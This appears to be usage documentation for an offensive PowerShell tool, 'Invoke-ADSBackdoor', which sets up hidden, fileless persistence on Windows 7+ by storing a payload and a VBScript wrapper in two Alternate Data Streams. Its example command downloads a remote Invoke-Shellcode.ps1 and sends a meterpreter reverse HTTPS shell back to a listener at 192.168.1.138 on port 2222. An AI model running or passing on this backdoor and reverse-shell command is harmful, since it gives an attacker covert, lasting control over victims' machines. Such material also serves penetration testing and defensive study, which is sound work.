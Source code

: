 This script will obtain fileless persistence on a Windows 7+ machine under both Standard and Administrative accounts by 
using two Alternate Data Streams. The first Alternate Data stream stores the payloadand the second Alternate Data Stream 
stores some VBScript that acts as a wrapper in order to hide the DOS prompt when invoking the data stream containing the 
payload. When passing the arguments, you have to include the function and any parameters required by your payload. 
The arguments must also be in quotation marks.

Example:
PS C:\Users\test\Desktop> Invoke-ADSBackdoor -URL http://192.168.1.138/Invoke-Shellcode.ps1 -Arguments "Invoke-Shellcode
 -Lhost 192.168.1.138 -LPort 2222 -Payload windows/meterpreter/reverse_https -Force"
This will use the function Invoke-Shellcode in Invoke-Shellcode.ps1 to shovel meterpreter back to 192.168.1.138 on port 
2222 over HTTPS. 
